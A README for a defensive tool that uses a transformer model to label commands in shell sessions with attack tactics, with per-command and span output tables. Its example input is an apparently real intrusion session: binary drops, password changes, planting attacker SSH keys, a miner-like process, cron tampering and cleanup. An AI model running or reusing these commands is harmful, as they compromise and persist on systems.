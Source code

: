 # Attack Labeller

In this folder currently lives the LogPrecis classifier.

A PyTorch-based tool to classify and label shell commands in long command-line sessions using a transformer model.

## Features

- Splits shell sessions into individual commands.
- Uses a token classification model to label each token and aggregate to
achieve labelling of commands.
- Supports long inputs via token-based chunking with overlap.
- Aggregates token-level predictions into command-level results.
- Outputs per-command labels and label spans.

## Example use 

Input: ```"LC_ALL=C cat /etc/rc.local /etc/rc.d/rc.local ; LC_ALL=C crontab -l ; scp -t ~/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C ~/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C rm -f ~/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C chattr -i -a ~/.dhpcd ; LC_ALL=C rm -f ~/.dhpcd ; LC_ALL=C rmdir ~/.dhpcd ; scp -t ~/.dhpcd ; LC_ALL=C ~/.dhpcd ; LC_ALL=C echo ~ ; LC_ALL=C chattr -i -a /etc/shadow ; LC_ALL=C passwd ; LC_ALL=C passwd ; LC_ALL=C passwd test ; LC_ALL=C passwd test ; LC_ALL=C passwd oracle ; LC_ALL=C passwd oracle ; LC_ALL=C passwd test1 ; LC_ALL=C passwd test1 ; LC_ALL=C chattr +a /etc/shadow ; LC_ALL=C mkdir -p ~/.ssh ; LC_ALL=C chmod 700 ~/.ssh ; LC_ALL=C grep ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuhPmv3xdhU7JbMoc/ecBTDxiGqFNKbe564p4aNT6JbYWjNwZ5z6E4iQQDQ0bEp7uBtB0aut0apqDF/SL7pN5ybh2X44aCwDaSEB6bJuJi0yMkZwIvenmtCA1LMAr2XifvGS/Ulac7Qh5vFzfw562cWC+IOI+LyQZAcPgr+CXphJhm8QQ+O454ItXurQX6oPlA2rNfF36fnxYss1ZvUYC80wWTi9k2+/XR3IoQXZHKCFsJiwyKO2CY+jShBbDBbtdOX3/ksHNVNStA/jPE0HYD7u6V2Efjv9K+AEbklMsytD9T60Iu3ua+ugBrP5hL7zAjPHpXH8qW4Ku7dySZ4yvH ~/.ssh/authorized_keys ; LC_ALL=C echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuhPmv3xdhU7JbMoc/ecBTDxiGqFNKbe564p4aNT6JbYWjNwZ5z6E4iQQDQ0bEp7uBtB0aut0apqDF/SL7pN5ybh2X44aCwDaSEB6bJuJi0yMkZwIvenmtCA1LMAr2XifvGS/Ulac7Qh5vFzfw562cWC+IOI+LyQZAcPgr+CXphJhm8QQ+O454ItXurQX6oPlA2rNfF36fnxYss1ZvUYC80wWTi9k2+/XR3IoQXZHKCFsJiwyKO2CY+jShBbDBbtdOX3/ksHNVNStA/jPE0HYD7u6V2Efjv9K+AEbklMsytD9T60Iu3ua+ugBrP5hL7zAjPHpXH8qW4Ku7dySZ4yvH >> ~/.ssh/authorized_keys ; LC_ALL=C grep ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTiGm9b44ZjkQoMkcGuVsC8SGW7a9aFODS6nb64WnMwBwKPja7k56LyBBdVRm+MeKecx6Q/qLn5J+ggJ6um/LoCjKJLrX2dFOjGdyR4ZjnVBwibgr8PLrPoo7bUkaR3DMjfhcmoRlFrj51aN6g0TYHejCmug3TRpg37djYKqJ539iGNcmj021ZlzDBrjfIxUY849O72GsMuytk8n3K6XFxHj8gHyOsB7NgyvE39x9/SoGq2gkQS6TFun6dhmsr+ORokfS2265RwbdEOfnwL2LnQNuhiePlOUHRqzpc0K2pu9TGo1vNRIGSymCatMUNgnNX3tfcuMP5e8f1xDVh7fx3 ~/.ssh/authorized_keys ; LC_ALL=C echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTiGm9b44ZjkQoMkcGuVsC8SGW7a9aFODS6nb64WnMwBwKPja7k56LyBBdVRm+MeKecx6Q/qLn5J+ggJ6um/LoCjKJLrX2dFOjGdyR4ZjnVBwibgr8PLrPoo7bUkaR3DMjfhcmoRlFrj51aN6g0TYHejCmug3TRpg37djYKqJ539iGNcmj021ZlzDBrjfIxUY849O72GsMuytk8n3K6XFxHj8gHyOsB7NgyvE39x9/SoGq2gkQS6TFun6dhmsr+ORokfS2265RwbdEOfnwL2LnQNuhiePlOUHRqzpc0K2pu9TGo1vNRIGSymCatMUNgnNX3tfcuMP5e8f1xDVh7fx3 >> ~/.ssh/authorized_keys ; LC_ALL=C netstat -plnt ; LC_ALL=C ss -tln ; scp -t /dev/shm/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C /dev/shm/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C rm -f /dev/shm/aks9ewaa068ca6xvsyl3qgwtcz ; scp -t /tmp/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C /tmp/aks9ewaa068ca6xvsyl3qgwtcz ; LC_ALL=C rm -f /tmp/aks9ewaa068ca6xvsyl3qgwtcz ; scp -t /tmp/knrm ; scp -t /tmp/r ; LC_ALL=C /tmp/knrm ; LC_ALL=C $SHELL /tmp/r ; LC_ALL=C /tmp/knrm ; LC_ALL=C $SHELL /tmp/r ; LC_ALL=C rm -f /home/admin/.dhpcd ; scp -t /home/admin/.dhpcd ; LC_ALL=C /home/admin/.dhpcd -o 127.0.0.1:4444 -B > > /dev/null /dev/null ; LC_ALL=C top -bn1 ; LC_ALL=C crontab -l ; LC_ALL=C chattr -i /var/spool/cron/crontabs/root ; LC_ALL=C crontab - ; LC_ALL=C crontab -l ; LC_ALL=C rm -f /tmp/r /tmp/knrm ;"```

We generate to dataframes:

|    | command                                                                                                                                                               | predicted_label   |   confidence |   label_change |
|---:|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------|-------------:|---------------:|
|  0 | LC_ALL=C cat /etc/rc.local /etc/rc.d/rc.local                                                                                                                         | Discovery         |     0.987566 |              1 |
|  1 | LC_ALL=C crontab -l                                                                                                                                                   | Discovery         |     0.99612  |              1 |
|  2 | scp -t ~/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                                   | Execution         |     0.906184 |              2 |
|  3 | LC_ALL=C ~/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                                 | Execution         |     0.994058 |              2 |
|  4 | LC_ALL=C rm -f ~/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                           | Execution         |     0.758692 |              2 |
|  5 | LC_ALL=C chattr -i -a ~/.dhpcd                                                                                                                                        | Execution         |     0.933044 |              2 |
|  6 | LC_ALL=C rm -f ~/.dhpcd                                                                                                                                               | Execution         |     0.992518 |              2 |
|  7 | LC_ALL=C rmdir ~/.dhpcd                                                                                                                                               | Execution         |     0.992413 |              2 |
|  8 | scp -t ~/.dhpcd                                                                                                                                                       | Execution         |     0.99412  |              2 |
|  9 | LC_ALL=C ~/.dhpcd                                                                                                                                                     | Execution         |     0.981313 |              2 |
| 10 | LC_ALL=C echo ~                                                                                                                                                       | Discovery         |     0.997832 |              3 |
| 11 | LC_ALL=C chattr -i -a /etc/shadow                                                                                                                                     | Discovery         |     0.997966 |              3 |
| 12 | LC_ALL=C passwd                                                                                                                                                       | Discovery         |     0.997832 |              3 |
| 13 | LC_ALL=C passwd                                                                                                                                                       | Discovery         |     0.997732 |              3 |
| 14 | LC_ALL=C passwd test                                                                                                                                                  | Discovery         |     0.997538 |              3 |
| 15 | LC_ALL=C passwd test                                                                                                                                                  | Discovery         |     0.997438 |              3 |
| 16 | LC_ALL=C passwd oracle                                                                                                                                                | Discovery         |     0.996379 |              3 |
| 17 | LC_ALL=C passwd oracle                                                                                                                                                | Discovery         |     0.996435 |              3 |
| 18 | LC_ALL=C passwd test1                                                                                                                                                 | Discovery         |     0.996275 |              3 |
| 19 | LC_ALL=C passwd test1                                                                                                                                                 | Discovery         |     0.996418 |              3 |
| 20 | LC_ALL=C chattr +a /etc/shadow                                                                                                                                        | Discovery         |     0.996839 |              3 |
| 21 | LC_ALL=C mkdir -p ~/.ssh                                                                                                                                              | Discovery         |     0.994922 |              3 |
| 22 | LC_ALL=C chmod 700 ~/.ssh                                                                                                                                             | Discovery         |     0.747785 |              3 |
| 23 | LC_ALL=C grep ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuhPmv3xdhU7JbMoc/ecBTDxiGqFNKbe564p4aNT6JbYWjNwZ5z6E4iQQDQ0bEp7uBtB0aut0apqDF/SL7pN5ybh2X44aCwDaSEB6bJuJi0yMkZ   | Persistence       |     0.580962 |              4 |
| 24 | LC_ALL=C echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuhPmv3xdhU7JbMoc/ecBTDxiGqFNKbe564p4aNT6JbYWjNwZ5z6E4iQQDQ0bEp7uBtB0aut0apqDF/SL7pN5ybh2X44aCwDaSEB6bJuJi0yMkZ   | Persistence       |     0.807136 |              4 |
| 25 | LC_ALL=C grep ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTiGm9b44ZjkQoMkcGuVsC8SGW7a9aFODS6nb64WnMwBwKPja7k56LyBBdVRm+MeKecx6Q/qLn5J+ggJ6um/LoCjKJLrX2dFOjGdyR4ZjnVBwibgr | Persistence       |     0.533458 |              4 |
| 26 | LC_ALL=C echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTiGm9b44ZjkQoMkcGuVsC8SGW7a9aFODS6nb64WnMwBwKPja7k56LyBBdVRm+MeKecx6Q/qLn5J+ggJ6um/LoCjKJLrX2dFOjGdyR4ZjnVBwibgr | Persistence       |     0.749832 |              4 |
| 27 | LC_ALL=C netstat -plnt                                                                                                                                                | Discovery         |     0.603318 |              5 |
| 28 | LC_ALL=C ss -tln                                                                                                                                                      | Discovery         |     0.967755 |              5 |
| 29 | scp -t /dev/shm/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                            | Execution         |     0.925801 |              6 |
| 30 | LC_ALL=C /dev/shm/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                          | Execution         |     0.974029 |              6 |
| 31 | LC_ALL=C rm -f /dev/shm/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                    | Defense Evasion   |     0.87991  |              7 |
| 32 | scp -t /tmp/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                                | Execution         |     0.86238  |              8 |
| 33 | LC_ALL=C /tmp/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                              | Execution         |     0.912162 |              8 |
| 34 | LC_ALL=C rm -f /tmp/aks9ewaa068ca6xvsyl3qgwtcz                                                                                                                        | Defense Evasion   |     0.863987 |              9 |
| 35 | scp -t /tmp/knrm                                                                                                                                                      | Defense Evasion   |     0.772499 |              9 |
| 36 | scp -t /tmp/r                                                                                                                                                         | Execution         |     0.988351 |             10 |
| 37 | LC_ALL=C /tmp/knrm                                                                                                                                                    | Execution         |     0.987262 |             10 |
| 38 | LC_ALL=C $SHELL /tmp/r                                                                                                                                                | Execution         |     0.98564  |             10 |
| 39 | LC_ALL=C /tmp/knrm                                                                                                                                                    | Execution         |     0.986047 |             10 |
| 40 | LC_ALL=C $SHELL /tmp/r                                                                                                                                                | Execution         |     0.900263 |             10 |
| 41 | LC_ALL=C rm -f /home/admin/.dhpcd                                                                                                                                     | Execution         |     0.895642 |             10 |
| 42 | scp -t /home/admin/.dhpcd                                                                                                                                             | Execution         |     0.945966 |             10 |
| 43 | LC_ALL=C /home/admin/.dhpcd -o 127.0.0.1:4444 -B > > /dev/null /dev/null                                                                                              | Execution         |     0.99683  |             10 |
| 44 | LC_ALL=C top -bn1                                                                                                                                                     | Execution         |     0.993145 |             10 |
| 45 | LC_ALL=C crontab -l                                                                                                                                                   | Execution         |     0.986939 |             10 |
| 46 | LC_ALL=C chattr -i /var/spool/cron/crontabs/root                                                                                                                      | Execution         |     0.852815 |             10 |
| 47 | LC_ALL=C crontab -                                                                                                                                                    | Execution         |     0.908075 |             10 |
| 48 | LC_ALL=C crontab -l                                                                                                                                                   | Execution         |     0.954352 |             10 |
| 49 | LC_ALL=C rm -f /tmp/r /tmp/knrm 


and 

|    | label           |   start_index |   end_index |   span_length |   mean_confidence |
|---:|:----------------|--------------:|------------:|--------------:|------------------:|
|  0 | Discovery       |             0 |           1 |             2 |          0.991843 |
|  1 | Execution       |             2 |           9 |             8 |          0.944043 |
|  2 | Discovery       |            10 |          22 |            13 |          0.977799 |
|  3 | Persistence     |            23 |          26 |             4 |          0.667847 |
|  4 | Discovery       |            27 |          28 |             2 |          0.785537 |
|  5 | Execution       |            29 |          30 |             2 |          0.949915 |
|  6 | Defense Evasion |            31 |          31 |             1 |          0.87991  |
|  7 | Execution       |            32 |          33 |             2 |          0.887271 |
|  8 | Defense Evasion |            34 |          35 |             2 |          0.818243 |
|  9 | Execution       |            36 |          48 |            13 |          0.95241  |
| 10 | Defense Evasion |            49 |          49 |             1 |          0.763001 |
